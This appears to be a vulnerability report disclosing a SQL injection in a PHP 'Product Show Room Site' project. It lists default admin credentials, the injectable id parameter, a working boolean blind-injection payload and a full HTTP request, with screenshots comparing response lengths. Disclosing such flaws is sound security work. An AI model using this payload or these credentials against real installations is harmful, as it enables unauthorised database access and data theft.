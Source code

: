 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/fields/manage_field.php?id=

Vulnerability location: /psrs/admin/fields/manage_field.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/fields/manage_field.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/fields/manage_field.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 2889
![image](https://user-images.githubusercontent.com/54017627/171830272-2cee4f44-c3cc-40a8-b5b6-ee96ee6f6ed0.png)

![image](https://user-images.githubusercontent.com/54017627/171830332-9e7a33d7-15fd-427d-816a-cf2c3a827fb5.png)

When length (database ()) = 7, Content-Length: 2906
![image](https://user-images.githubusercontent.com/54017627/171830233-bab5f730-b2d9-4826-b462-62e3510d1895.png)

![image](https://user-images.githubusercontent.com/54017627/171830297-db8b0e21-bd63-40ef-97ff-d4cd1a7bbac3.png)
